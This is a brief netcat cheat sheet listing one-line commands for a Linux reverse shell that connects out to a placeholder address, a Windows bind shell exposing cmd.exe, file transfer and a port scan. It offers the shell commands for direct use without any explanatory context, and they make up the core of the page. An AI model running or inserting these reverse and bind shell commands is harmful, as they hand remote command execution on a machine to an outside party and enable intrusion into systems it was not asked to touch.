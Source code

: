 #### reverse shell (linux)

```nc x.x.x.x 6969 -e /bin/bash```

-----


#### bind shell (windows)

```nc -lvp 4444 -e cmd.exe```

-----


#### transferring files

*On receiving end:*

```nc -l -p 1234 > out.file```

*On the sending end:*

```nc -w 3 [destination] 1234 < out.file```

-----


#### port scan

```nc -z -v 192.168.1.103 1-443```

-----
